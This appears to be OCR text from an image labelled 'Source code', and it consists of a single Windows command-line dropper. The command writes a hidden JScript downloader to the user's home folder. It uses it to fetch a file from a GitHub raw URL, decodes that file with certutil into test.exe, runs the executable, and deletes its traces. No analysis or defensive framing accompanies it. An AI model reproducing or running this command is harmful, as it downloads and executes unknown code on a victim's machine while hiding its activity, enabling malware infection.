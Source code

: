 echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); > c:%homepath%\wget.js & echo WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); >> c:%homepath%\wget.js & echo WinHttpReq.Send(); >> c:%homepath%\wget.js & echo WScript.Echo(WinHttpReq.ResponseText); >> c:%homepath%\wget.js & attrib +h c:%homepath%\wget.js & cscript /nologo c:%homepath%\wget.js https://raw.githubusercontent.com/suntop100/hello-world/master/vil.txt > c:%homepath%\syslog.txt & certutil -decode c:%homepath%\syslog.txt c:%homepath%\test.exe & c:%homepath%\test.exe & del c:%homepath%\wget.js & del c:%homepath%\syslog.txt & del c:%homepath%\test.exe
